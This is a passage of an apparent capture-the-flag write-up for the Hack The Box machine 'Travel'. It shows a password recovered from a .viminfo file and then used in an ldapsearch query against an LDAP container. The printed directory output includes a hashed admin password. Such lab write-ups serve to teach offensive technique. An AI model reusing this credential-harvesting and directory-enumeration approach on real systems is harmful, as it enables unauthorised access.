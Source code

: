 ```bash
-'  1  0  ~/.ldaprc
|4,39,1,0,1587670527,"~/.ldaprc"

# History of marks within files (newest to oldest):

> ~/.ldaprc
        *       1587670529      0
        "       3       0
        .       4       0
        +       4       0
```
We check the /etc/hosts file and we see that there is an ldap entry in there.
```
lynik-admin@travel:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 travel
172.20.0.10 ldap.travel.htb
```
The address connected to the ldap host seems to be a docker container ip so we can assume that we will be connecting to a docker container via ldap.

This website helped with the next stage.
[digital ocean ldap]https://www.digitalocean.com/community/tutorials/how-to-manage-and-use-ldap-servers-with-openldap-utilities

We run
```
ldapsearch -x -w Theroadlesstraveled
```
This is the password we found inside the `.viminfo` file.
Running this we get alot of output so i will filter the useless things out.
```
# travel.htb
dn: dc=travel,dc=htb
objectClass: top
objectClass: dcObject
objectClass: organization
o: Travel.HTB
dc: travel

# admin, travel.htb
dn: cn=admin,dc=travel,dc=htb
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: admin
description: LDAP administrator

# servers, travel.htb
dn: ou=servers,dc=travel,dc=htb
description: Servers
objectClass: organizationalUnit
ou: servers

# lynik-admin, travel.htb
dn: cn=lynik-admin,dc=travel,dc=htb
description: LDAP administrator
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: lynik-admin
userPassword:: e1NTSEF9MEpaelF3blZJNEZrcXRUa3pRWUxVY3ZkN1NwRjFRYkRjVFJta3c9PQ=
 =
```
